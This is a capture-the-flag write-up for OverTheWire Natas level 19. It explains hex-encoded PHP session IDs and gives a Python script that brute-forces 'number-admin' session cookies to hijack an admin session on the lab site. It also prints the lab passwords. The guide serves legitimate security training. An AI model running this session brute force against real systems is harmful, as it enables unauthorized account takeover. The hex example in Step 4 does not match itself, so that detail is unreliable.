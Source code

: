 # Natas CTF Solutions  

## Natas Level 19  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit session-based authentication using encoded PHP session IDs.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas19.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas19`  
- **Password:** Use the password from Natas Level 18:  
```
tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr
```  

![Home_Page](https://github.com/user-attachments/assets/0f831f53-5673-4dcb-978e-7544f34819e2)

---

### **Step 3: Analyze the Webpage**  
- When you try to log in with random credentials, it shows:  
```  
You are logged in as a regular user.  
```  
- Viewing the **page source** reveals that the session is handled by PHP’s `PHPSESSID` system.  
- The session ID is encoded using **hexadecimal** format.

![Session_ID](https://github.com/user-attachments/assets/0fc011e2-f719-41d6-bea5-88f055a8faa4)
  
---

### **Step 4: Hex Decode PHPSESSID**  
- After logging in, you’ll see a `PHPSESSID` value like:  
```
3237312d61646d696e
```  
- Use a tool like **CyberChef** to decode it:  
```
3238312d61646d696e → 281-admin
```
✅ The session ID is composed of:  
- `323831` = `281` (in hex)  
- `2d61646d696e` = `-admin` (in hex)  

![Cyberchef](https://github.com/user-attachments/assets/a49dba8e-97e2-4cf6-8dce-52049cfee906)

---

### **Step 5: Automate Session ID Brute Force**  
Use this Python script to brute-force the session ID:  

```python
import requests
from requests.auth import HTTPBasicAuth

# Authentication details
basicAuth = HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')

MAX = 640  # PHP sessions typically have IDs up to 640
count = 1

u = "http://natas19.natas.labs.overthewire.org/index.php?debug"

while count <= MAX:
    # Convert count to hex
    numberAsHex = "".join("{:02x}".format(ord(c)) for c in str(count))
    # Append '-admin' in hex
    adminPortion = "2d61646d696e" 

    # Construct session ID
    sessionID = "PHPSESSID=" + numberAsHex + adminPortion
    headers = {'Cookie': sessionID}

    response = requests.get(u, headers=headers, auth=basicAuth, verify=False)

    if "You are logged in as a regular user" not in response.text:
        print(f"[+] Found session ID: {sessionID}")
        print(response.text)
        break

    count += 1

print("Done!")
```

✅ **How the script works:**  
1. Converts `count` to hexadecimal.  
2. Appends the hex string for `-admin`.  
3. Sets it as a `PHPSESSID` value in the `Cookie` header.  
4. If the response does **not** show `"You are logged in as a regular user"`, it confirms the session is elevated to admin.  
5. Stops when a successful session ID is found.  

---

### **Step 6: Output**  
- After running the script, it finds a valid session ID — in this case, **281-admin** (hex: `3238312d61646d696e`).  
- Output example:  
```  
[+] Found session ID: PHPSESSID=3238312d61646d696e
You are logged in as an admin.
```

---

### **Step 7: Retrieve the Password**  
Once the session is authenticated as admin, the page reveals the password for **Natas Level 20**:  

![Password](https://github.com/user-attachments/assets/71c2fb0f-9c85-465e-9799-4bacf5bbd1b9)

---

### **✅ Password for Natas Level 20**  
```
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
```  

---

## 💡 **Lessons Learned**  
✔️ **Hex Encoding:** PHPSESSID values can be encoded using hex format.  
✔️ **Pattern Recognition:** Session IDs often follow a predictable pattern (like `number-admin`).  
✔️ **Brute Force with Pattern:** Once the pattern is known, brute force becomes efficient.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Session ID | ![Session_ID](https://github.com/user-attachments/assets/0fc011e2-f719-41d6-bea5-88f055a8faa4) |  
| Step 4 – Cyber Chef | ![Cyberchef](https://github.com/user-attachments/assets/a49dba8e-97e2-4cf6-8dce-52049cfee906) |  
| Step 7 – Found Password | ![Password](https://github.com/user-attachments/assets/71c2fb0f-9c85-465e-9799-4bacf5bbd1b9) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 20**:  
👉 [http://natas20.natas.labs.overthewire.org](http://natas20.natas.labs.overthewire.org)  

---
